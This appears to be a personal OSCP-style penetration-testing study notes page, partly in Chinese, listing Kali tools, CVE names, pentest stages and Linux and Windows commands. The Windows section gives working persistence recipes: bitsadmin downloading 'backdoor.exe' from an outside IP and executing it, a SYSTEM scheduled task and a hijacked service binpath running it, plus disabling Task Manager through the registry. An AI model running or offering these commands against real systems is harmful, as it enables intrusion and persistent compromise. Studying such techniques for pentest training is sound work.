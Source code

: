 # Foundation

## Kali

### hosts

```bash
# OSCP VPN
51.79.170.192   vpn-pool1.offseclabs.com
```

### Tools

#### information gathering

burpsuite, dirsearch, gobuster

#### vulnerability scanning

Nessus，wpscan

#### reverse shell

rsg

#### privilege escalation

mingw-w64, x86_64-linux-gnu-gcc,

### general

tcvps
shadowsocks
Parallels: Lock screen time

### CVE

#### Directory Traversal

- CVE-2021-43798 （Grafana 8.3.0 - Directory Traversal and Arbitrary File Read）
- CVE-2021-41773 （Apache HTTP Server 2.4.49 - Path Traversal）
- CVE-2021-42013 （Apache HTTP Server 2.4.50 - Path Traversal）

#### Command Injection

- 2021-3493(Linux-priviledge)
- 2019-11447(CuteNews)

### GN

phase_2 2(172.16.33.30), homework 172.16.33.9

## pentest process

A typical penetration test comprises the following stages:

- Defining the Scope
- Information Gathering
- Vulnerability Detection
- Initial Foothold
- Privilege Escalation
- Lateral Movement
- Reporting/Analysis
- Lessons Learned/Remediation

## Linux

### shell

#### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

#### ss

```shell
ss -aptu
```

## Windows

### cmd & powershell

powershell -ep bypass

#### systeminfo

```shell
systeminfo /s host1
```

#### set

```shell
echo %temp%
```

#### dir

```shell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### certutil

certutil 是Windows命令行工具，用于管理证书服务和证书相关的操作。证书服务是Windows操作系统中的一个角色，用于创建和管理证书，以及为用户和计算机分发证书。

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula

---

